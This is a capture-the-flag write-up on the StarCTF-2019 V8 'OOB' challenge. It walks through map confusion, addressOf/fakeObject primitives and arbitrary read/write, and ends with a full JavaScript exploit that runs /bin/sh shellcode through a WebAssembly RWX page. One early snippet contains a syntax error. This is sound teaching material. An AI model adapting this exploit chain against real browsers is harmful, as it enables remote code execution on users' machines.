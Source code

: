 ```yaml
---
title: V8 OOB
date: 2021-10-01 10:22:19
tags: v8
layout: default
---
```

Curt write up for a classic challenge V8-OOB
<!--more-->
# What's OOB

OOB is a challenge on StarCTF-2019. It's a basic but classical one.

# Basic for JS

V8 is an open source engine for JavaScript which is implemented in Chrome.

There are several passages for setting up the environment, learning some basic knowledge for about the JavaScript and V8.

V8 Compiling: [V8 env](https://mem2019.github.io/jekyll/update/2019/07/18/V8-Env-Config.html)

object's structure: [Fast properties in V8](https://v8.dev/blog/fast-properties)

oob: [oob](https://www.freebuf.com/vuls/203721.html)

# OOB

The challenge gives a diff file to implement a vulnerability. 

```bash
git apply < oob.diff
```

The diff file adds a vulnerable method. In short, `array.oob()` would return `array[array.length]`  and `array.oob(x)` would set `array[array.length] =x` . As we all know, the subscript of an n-element-array is [0,n-1]. There for we could read and write the data out of the array. In V8, according to the structure of the object, it's the map of the object. 

So what can we do if we could read and modify any object's map? Yes, we can confuse the type explaining of the object. If we take an array of floats as an array of objects, we could read the address of the object while taking an array of objects as an array of floats, it would create a fake object. That's what we could exploit from OOB. 

# `addressOf` and `fakeObject`

More specifically, we could use `oob()` to get the map of float array and object array.

```jsx
var obj = [a:"a"];
var obj_array = [obj];
var float_array = [1.1];
// map_of_obj_array & map_of_float_array 
var mo = obj_array.oob();
var mf = float_array.oob();
```

And we could modify the map of an object to perform `addressOf` and `fakeObject`.

```jsx
function addressOf(obj)
{
	obj_array[0] = obj;
	obj_array.oob(mf);
	let res = f2i(obj_array[0])-1n;
	obj_array.oob(mo);
	return res;
}
function fakeObject(address)
{
	float_array[0] = i2f(address+1n);
	float_array.oob(mo);
	let res = float_array[0];
	float_array.oob(mf);
	return res;
}
```

- i2f is a function converts big `unsigned int` to `float`.
- f2i is a function converts float to `big` unsigned `int`.
- you can find it in [cheatsheet](https://n132.github.io/cheatsheet/)

# aar and aaw

We could conduct `aar(arbitrary address read)` and `aaw(arbitrary address write)` functions from `addressOf` and `fakeObject`. By faking a float array and modifying its element.

```jsx
var tmp = [1.1,1.1,1.1,1.1];
var mt = tmp.oob();
var fake = [mt,i2f(0n),i2f(0n),i2f(0x400000000n),1.1,1.1];
var fake_obj = fakeObject(addressOf(fake)-0x30n);
function aar(address)
{
	fake[2] = i2f(address-0xfn);
	return f2i(fake_obj[0]);
}
function aaw(address,value)
{
	fake[2] = i2f(address-0xfn);
	fake_obj[0] = i2f(value);
}
```

Now we can read and write arbitrary address in the memory. 

# Get shell

1. search in the memory to find some useful address→ get libc-base address → hijack hooks → get shell
2.  find some useful address in array.map.constructor.code.
3. `Web asm`, [https://wasdk.github.io/WasmFiddle/](https://wasdk.github.io/WasmFiddle/), find the rwx page in `wasmInstance.exports.main()` and modify the content to run our shellcode.

# EXP(Wasm)

```jsx
var _b = new ArrayBuffer(16);
var _f = new Float64Array(_b);
var _i = new BigUint64Array(_b);
function f2i(f)
{
	_f[0] = f;
	return _i[0];
}
function i2f(i)
{
	_i[0] = i;
	return _f[0];
}
function hex(i)
{
	return "0x"+i.toString(16).padStart(16,"0");
}

var obj = {a:"a"};
var oa = [obj];
var fa = [1.1]
var mo = oa.oob();
var mf = fa.oob();

function addressOf(obj)
{
	oa[0]= obj;
	oa.oob(mf);
	let res = f2i(oa[0])-1n;
	oa.oob(mo);
	return res;
}
function fakeObj(address)
{
	fa[0] = i2f(address+1n);
	fa.oob(mo);
	let res = fa[0];
	fa.oob(mf);
	return res;
}
var c = [1.1,1.1,1.1,1.1]
var mc = c.oob(); 
var fake = [
mc,
i2f(0n),
i2f(0n),
i2f(0x1000000000n),
1.1,
2.2
]
var faker = fakeObj(addressOf(fake)-0x30n);


function aar(addr)
{
	fake[2] = i2f(addr-0xfn);
	return f2i(faker[0]);
}
function aaw(addr,val)
{
	fake[2] = i2f(addr-0xfn);
	faker[0] = i2f(val);
}


var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f= wasmInstance.exports.main;
var shell = [0xf631483bb0c03148n, 0x69622fbf48d23148n, 0x8948570068732f6en,0x50fe7n];
var tmp = aar(addressOf(f)+0x18n)-1n;
tmp = aar(tmp+8n)-1n;
tmp = aar(tmp+0x10n)-1n
tmp = aar(tmp+0x88n)
var buf =new ArrayBuffer(shell.length*8);
aaw(addressOf(buf)+0x20n,tmp);
var v =new DataView(buf);
for(let i=0;i<shell.length;i++){
	v.setFloat64(i*8,i2f(shell[i]),true);
}
f();

//%DebugPrint(f);
//%SystemBreak();
```
